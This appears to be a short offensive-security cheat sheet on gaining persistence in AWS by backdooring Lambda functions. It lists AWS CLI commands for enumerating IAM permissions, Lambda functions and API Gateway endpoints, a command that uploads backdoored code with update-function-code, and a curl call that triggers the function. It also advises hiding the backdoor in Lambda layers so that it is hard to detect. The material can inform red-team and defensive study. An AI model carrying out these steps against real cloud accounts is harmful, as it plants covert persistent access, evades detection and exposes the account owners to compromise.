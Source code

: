 # AWS Lambda and API Gateway Persistence

### If the user has sufficient rights in the lambda function, its possible to download the source code, add a backdoor to it and upload. Everytime the lambda executes, the malicious code will also execute.

### Always try to update the code of layers (depedencies) instead of the actual lambda code, this way our backdoor will be difficult to detect.

 - aws sts get-caller-identity (Checking which user is executing)

 - aws iam list-attached-user-policies --user-name USER_NAME (Checking all managed policies attached to the user)

 - aws iam get-policy-version --policy-arn ARN --version-id ID (Checking information about a specific policy)

 - aws lambda list-functions --region REGION (Listing all lambda functions)

 - aws lambda get-function --function-name NAME (Listing information about the specified lambda)

### Download and analyze the code, then:

 - aws lambda get-policy --function-name NAME --profile PROFILE --region REGION

### We can grab informations like id, who can invoke and other details with this command (Helps to build the query to execute the lambda function).

 - aws apigateway get-rest-apis (Listing Rest API'S)

 - aws apigateway get-rest-api --rest-api-id ID (Listing information about a specific API)

 - aws apigateway get-resources --rest-api-id ID (Listing information about endpoints)

 - aws apigateway get-resource --rest-api-id ID --resource-id ID (Listing information about a specific endpoint)

 - aws apigateway get-method --rest-api-id ApiID --resource-id ID --http-method METHOD (Listing method information for the endpoint) (Test various methods to see if the API supports it)

 - aws apigateway get-stages --rest-api-id ID (List all versions of a rest API)

 - aws apigateway get-stage --res-api-id ID --stage-name NAME (Getting information about a specific version)

## Uploading the backdoor code to aws lambda function

 - aws lambda update-function-code --function-name FUNCTION --zip-file fileb://my-function/EXAMPLE 

## Invoke the function

 - curl https://uj3948ie.execute-api.us-east-2.amazonaws.com/default/EXAMPLE

### Where:

#### 1. API-ID -> uj3948ie

#### 2. Region -> us-east-2

#### 3. Resource (Endpoint) -> EXAMPLE

#### 4. Method -> Get

#### 5. Stage (Version) -> default

#### 6. API-Key -> None

### All these details are tgathered during enumeration

